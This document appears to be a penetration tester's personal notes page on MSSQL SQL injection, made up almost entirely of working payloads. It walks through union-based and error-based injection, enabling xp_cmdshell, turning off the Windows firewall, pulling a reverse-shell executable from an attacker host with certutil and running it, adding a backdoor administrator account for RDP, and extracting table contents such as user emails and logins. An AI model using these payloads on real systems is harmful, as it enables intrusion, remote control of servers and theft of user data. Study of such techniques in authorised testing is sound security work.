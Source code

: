```yaml
---
category: Uncategorized
tags: []
---
```

#### SQLi GUIDE


[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)

---
   
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year. 

Let's try to find out the number of columns using "order by" clause:

```sql
' order by 1--
```
no error message

```sql
' order by 5--
```
error message

```sql
' order by 4--
```
error message

```sql
' order by 3--
```
error message

```sql
' order by 2--
```
no error message

So as of now we know that 2 is the last column which worked, let us prepare the union select statement

  
```sql
' union select 1,2--
```

```sql
' union select null,null--
```

```sql
' union select '1111',null--
```

```sql
' union select null,'2222'--
```
  
```sql
' union select user,null--
```
  
```sql
' union select @@version,null--
```

```sql
' union select db_name(),null --
```

#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```

This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.

```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```

```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```

```sql
' union select user,null; RECONFIGURE; --
```

Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]

[[4._File Transfers]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```

![[rlwrap]]

```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```

#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```

Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```

---

#### Error Based attack

```sql
1 AND 1=CONVERT(INT,@@version)--
```

In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```

Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```

Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```

```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```

Extract table names (replace N with a number starting from 1):
  
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):  
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```

Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

